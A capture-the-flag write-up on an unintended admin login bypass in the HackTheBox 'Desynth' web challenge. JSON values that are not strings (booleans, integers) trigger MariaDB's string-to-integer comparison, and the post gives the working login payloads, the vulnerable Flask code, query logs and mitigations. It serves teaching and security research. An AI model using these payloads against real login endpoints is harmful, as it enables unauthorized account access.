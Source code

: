 # Hackthebox Business CTF 2023 - Desynth Unintended Solution - Type Confusion Attack

## Introduction
Desynth was a medium web category challenge from the 2023 Hackthebox Business CTF. The intended solution involved targeting Werkzeug for a desync attack. During the post event discussions, someone with the username of ikerl mentioned they got 'a strange sqli' to successfully login as the admin. My initial test also succeeded to login as the admin user and was able to then proceed with the second part of the challenge; which was utilizing a path traversal vulnerability in the `ipc_download` route to retrieve the mac address, random boot id, and cgroup so the Werkzeug debug console pin could be reproduced. When attempting to demonstrate the solution later on another computer, it did not work. The fact that it wasn't consistent was puzzling, so I decided to do some digging. 

## 1. Initial Unintended solution
The payload that worked for successfully authenticating as an admin was:
```
POST /api/login HTML/1.1

...
Content-Type: application/json

{
    "username": [false],
    "password": [false]
}
```

This would respond with a session cookie for the admin user. 

## 2. The environment
- Flask 2.1.0 
- mysqlclient 2.1.1
- mariadb 10.11.4

Login Endpoint:
```python
@api.route('/login', methods=['POST'])
def api_login():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = login_user_db(username, password)
    
    if user:
        session['auth'] = user
        return response('Logged In sucessfully'), 200
        
    return response('Invalid credentials!'), 403
```

Database functions:
```python
def query(query, args=(), one=False):
    cursor = mysql.connection.cursor()
    cursor.execute(query, args)
    rv = [dict((cursor.description[idx][0], value)
        for idx, value in enumerate(row)) for row in cursor.fetchall()]
    return (rv[0] if rv else None) if one else rv


def login_user_db(username, password):
    user = query('SELECT username FROM users WHERE username = %s AND password = %s', (username, password,), one=True)
    
    if user:
        token = create_JWT(user['username'])
        return token
    else:
        return False
```

## 3. Root Cause Analysis
The assumption was that `false` was being interpreted as a boolean value and not being formatted into the query string as intended by the code. This was confirmed by enabling logging on mysql to see the executed query. 

```sql
MariaDB [(none)]> SET GLOBAL general_log = "ON";
Query OK, 0 rows affected (0.001 sec)

MariaDB [(none)]> SHOW VARIABLES LIKE 'general_log_file';
+------------------+------------------+
| Variable_name    | Value            |
+------------------+------------------+
| general_log_file | 2d0acabc699a.log |
+------------------+------------------+
1 row in set (0.002 sec)
```

When examining the log the query is revealed to be:
```sql
SELECT username FROM users WHERE username = (0) and password = (0);
```

The `users` table at the time of investigation was: 
```sql
MariaDB [web_desynth_recruit]> select id, username, password from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 8ddbd719fcefe4960eb426aada20f825 |
|  2 | reidB    | 84272201880d8473e169b46ab0a50719 |
+----+----------+----------------------------------+
2 rows in set (0.001 sec)
```

I then added a user of `test:test` and when I attempted the sql query it succeeded. 

```sql
MariaDB [web_desynth_recruit]> select * from users where username = 0 and password = 0;
+----+----------+----------+-----------+------+---------------+------+------+-----------+-----------+---------------+------+---------------+--------------+
| id | username | password | full_name | issn | qualification | bio  | iexp | meta_desc | is_public | meta_keywords | bots | ipc_submitted | ipc_verified |
+----+----------+----------+-----------+------+---------------+------+------+-----------+-----------+---------------+------+---------------+--------------+
|  3 | test     | test     |           |      |               |      |      |           |           |               |      | 0             | 0            |
+----+----------+----------+-----------+------+---------------+------+------+-----------+-----------+---------------+------+---------------+--------------+
1 row in set, 6 warnings (0.001 sec)
```
Searching online resulted in an article on [exploit.db](https://www.exploit-db.com/docs/english/41275-mysql-injection-in-update,-insert,-and-delete.pdf) by Osanda Jayathissa that was useful. This article explained how strings were interpretted as a 0 or 0.0 to be more precise but this did not explain the why it was not working for the two preconfigured users. 

I did notice 6 warnings as a result of the query so I checked the warnings. 
```sql
MariaDB [web_desynth_recruit]> show warnings;
+---------+------+-----------------------------------------------------------------------+
| Level   | Code | Message                                                               |
+---------+------+-----------------------------------------------------------------------+
| Warning | 1292 | Truncated incorrect DECIMAL value: 'admin'                            |
| Warning | 1292 | Truncated incorrect DECIMAL value: '8ddbd719fcefe4960eb426aada20f825' |
| Warning | 1292 | Truncated incorrect DECIMAL value: 'reidB'                            |
| Warning | 1292 | Truncated incorrect DECIMAL value: '84272201880d8473e169b46ab0a50719' |
| Warning | 1292 | Truncated incorrect DECIMAL value: 'test'                             |
| Warning | 1292 | Truncated incorrect DECIMAL value: 'test'                             |
+---------+------+-----------------------------------------------------------------------+
6 rows in set (0.000 sec)
```

After some searching around it appears that SQL is casting the string as a signed integer for the comparison automatically. 
```sql
MariaDB [web_desynth_recruit]> select cast('8ddbd719fcefe4960eb426aada20f825' as SIGNED) as converted_value;
+-----------------+
| converted_value |
+-----------------+
|               8 |
+-----------------+
1 row in set, 1 warning (0.000 sec)

MariaDB [web_desynth_recruit]> select cast('84272201880d8473e169b46ab0a50719' as SIGNED) as converted_value;
+-----------------+
| converted_value |
+-----------------+
|     84272201880 |
+-----------------+
1 row in set, 1 warning (0.000 sec)

MariaDB [web_desynth_recruit]> show warnings;
+---------+------+-----------------------------------------------------------------------+
| Level   | Code | Message                                                               |
+---------+------+-----------------------------------------------------------------------+
| Warning | 1292 | Truncated incorrect INTEGER value: '84272201880d8473e169b46ab0a50719' |
+---------+------+-----------------------------------------------------------------------+
1 row in set (0.000 sec)
```
This results in the same warning and we can see that SQL will start at the left most character and take any digits up to the first alphabetic character. 
Given this fact we can attempt to login as the admin user with a payload of:
```json
{
    "username": "admin",
    "password": 8
}
```

And we have admin!
```json
{
  "message": "Logged In sucessfully"
}
```

If we update the password to start with an alphabetic character it allows us to login with numeric `0` as the password value. 
```sql
MariaDB [web_desynth_recruit]> UPDATE users SET password = 'P@$$w0rd!8398709856' WHERE username = 'admin';
Query OK, 1 row affected (0.001 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [web_desynth_recruit]> select cast(password as SIGNED) from users where username = 'admin';
+--------------------------+
| cast(password as SIGNED) |
+--------------------------+
|                        0 |
+--------------------------+
1 row in set, 1 warning (0.001 sec)

MariaDB [web_desynth_recruit]> show warnings;
+---------+------+----------------------------------------------------------+
| Level   | Code | Message                                                  |
+---------+------+----------------------------------------------------------+
| Warning | 1292 | Truncated incorrect INTEGER value: 'P@$$w0rd!8398709856' |
+---------+------+----------------------------------------------------------+
1 row in set (0.000 sec)
```
## 3. Ramifications
This type confusion can allow for much easier "password" bruteforcing reducing the possible dictionary to only 0-9 characters and the length to the index of the first alphabetic character. 

## 4. Mitigation and Remediation
This attack would be mitigated by already well defined best practices of input sanitization and the use of parameterized queries. Also storing of plaintext passwords is also a terrible idea. The password should be hashed with a secure algorithm and a unique salt value. 

## Conclusion
This unintended solution turned out to be quite the rabbit hole and rather fun to research. 

TLDR; 
Don't store plaintext passwords. 
And SQL does dumb things when comparing strings and integers. 

Now go hack some stuff!
